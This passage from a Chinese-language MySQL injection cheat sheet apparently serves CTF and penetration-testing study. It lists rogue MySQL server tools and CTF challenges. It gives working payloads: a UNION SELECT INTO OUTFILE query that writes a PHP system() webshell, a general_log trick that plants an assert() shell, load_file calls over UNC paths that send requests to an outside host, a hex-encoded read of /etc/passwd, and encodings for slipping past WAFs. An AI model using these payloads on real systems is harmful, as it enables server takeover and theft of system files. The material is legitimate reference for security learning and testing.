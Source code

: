         - Tool
            - [Rogue-MySQL-Server](https://github.com/allyshka/Rogue-MySql-Server)
            - [MysqlClientAttack](https://github.com/lcark/MysqlClientAttack)
        - Example
            - [N1CTF 2019 - sql_manage](https://xz.aliyun.com/t/6300)
            - [HITCON 2019 - GoGoPowerSQL](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/README.md#gogo-powersql)
            - [0CTF 2018 Final - h4x0rs.club](https://l4wio.github.io/CTF-challenges-by-me/0ctf_final-2018/0ctf_tctf_2018_slides.pdf)
            - [VolgaCTF 2018 - Corp Monitoring](https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html)
    - load_file with WebDAV
        - `load_file('//kaibro.tw@9478/meow.php')` / `load_file('\\\\kaibro.tw@9478/meow.php')`
            - Windows 環境有開 WebClient Service 時，可以透過 MySQL load_file + UNC Path 發送 HTTP Reuqest 到指定 URL (透過 `@` 指定 Port)
            - 實戰中，站庫分離環境，若後端 MySQL 主機有開 Web 環境，則可透過該方法先寫 webshell 再送 http request 觸發執行
        - Example
            - [Balsn CTF 2023 - ginowa](https://github.com/w181496/My-CTF-Challenges/tree/master/Balsn-CTF-2023#ginowa)
- File-write
    - `INTO DUMPFILE`
        - 適用 binary (寫入同一行)
    - `INTO OUTFILE`
        - 適用一般文本 (有換行)
    - 寫webshell
        - 需知道可寫路徑
        - `UNION SELECT "<? system($_GET[1]);?>",2,3 INTO OUTFILE "/var/www/html/temp/shell.php"`
    - 權限
        - `SELECT file_priv FROM mysql.user`
    - secure-file-priv
        - 限制 MySQL 導入導出
            - load_file, into outfile, load data 等
        - 運行時無法更改
        - MySQL 5.5.53 前，該變數預設為空(可以導入導出)
        - e.g. `secure_file_priv=E:\`
            - 限制導入導出只能在 E:\ 下
        - e.g. `secure_file_priv=null`
            - 限制不允許導入導出    
        - secure-file-priv 限制下用 general_log 拿 shell
        ```
        SET global general_log='on';

        SET global general_log_file='C:/phpStudy/WWW/cmd.php';

        SELECT '<?php assert($_POST["cmd"]);?>';
        ```
- IF語句
    - IF(condition,true-part,false-part)
    - `SELECT IF (1=1,'true','false')`
- Hex
    - `SELECT X'5061756c';  =>  paul`
    - `SELECT 0x5061756c; => paul`
    - `SELECT 0x5061756c+0 => 1348564332`
    - `SELECT load_file(0x2F6574632F706173737764);`
        - /etc/passwd
    - 可繞過一些 WAF
        - e.g. 用在不能使用單引號時(`'` => `\'`)
         - CHAR() 也可以達到類似效果
             - `'admin'` => `CHAR(97, 100, 109, 105, 110)`
- 註解：
    - `#`
    - `--`
    - `/**/`
        - 一個 `*/` 可以閉合前面多個 `/*`